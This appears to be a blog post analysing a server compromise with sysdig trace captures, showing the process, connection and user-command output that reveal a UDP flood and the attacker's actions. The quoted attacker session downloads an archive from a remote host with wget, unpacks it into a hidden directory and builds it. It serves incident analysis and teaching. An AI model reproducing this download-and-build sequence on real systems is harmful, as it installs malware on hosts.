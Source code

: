  <a href="https://twitter.com/sysdig/status/618102185482588160">July 6, 2015</a>
</blockquote>

<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script> 
## Exploring the Server Attack

I started my analysis the way I usually prefer to: by getting an overview of what happened to my system in terms of processes, network, and I/O. First, I looked at the top processes by network I/O for the hacked machine:

    $ sysdig -r trace.scap.gz -c topprocs_net
    Bytes     Process
    ------------------------------
    439.63M   /usr/sbin/httpd
    422.29M   /usr/local/apac
    5.27M     sshd
    2.38M     wget
    20.81KB   httpd
    9.94KB    httpd
    6.40KB    perl

Quite a lot of traffic for a server that I didn’t configure to serve anything! I also didn’t remember installing `/usr/sbin/httpd` or `/usr/local/apac` - more on that later. Next I took a better look at the network connections:

    $ sysdig -r trace.scap.gz -c topconns
    Bytes     Proto     Connection
    ------------------------------
    439.58M   udp       170.170.35.93:50978->39.115.244.150:800
    422.24M   udp       170.170.35.93:55169->39.115.244.150:800
    4.91M     tcp       85.60.66.5:59893->170.170.35.93:22
    46.72KB   tcp       170.170.35.93:39193->162.243.147.173:3132
    43.62KB   tcp       170.170.35.93:39194->162.243.147.173:3132
    20.81KB   tcp       170.170.35.93:53136->198.148.91.146:6667
    1000B     udp       170.170.35.93:0->39.115.244.150:800

This post has been edited. 

My host generated 800MB of UDP traffic - that’s insane! This was just screaming DoS. My guess was that the attacker installed some botnet client to generate targeted DoS on demand, so at this point I just shut down my server to make sure it wouldn’t cause any further damage to other people. All the information I had so far confirmed that the system had been compromised, but I could have reached the same conclusion using many other monitoring tools. However, the difference here is that I had an S3 bucket full of details, so I could start digging to see what actually happened. I started with my favorite chisel ever, `spy_users`, to see what the malicious user executed after logging in:

    $ sysdig -r trace.scap.gz -c spy_users
    06:11:28 root) cd /usr/sbin
    06:11:30 root) mkdir .shm
    06:11:32 root) cd /usr/sbin/.shm
    06:11:39 root) wget xxxxxxxxx.altervista.org/l.tgz
    06:11:40 root) tar zxvf l.tgz
    06:11:42 root) cd /usr/sbin/.shm/lib/.muh/src
    06:11:43 root) /bin/bash ./configure --enable-local
    06:11:56 root) make all
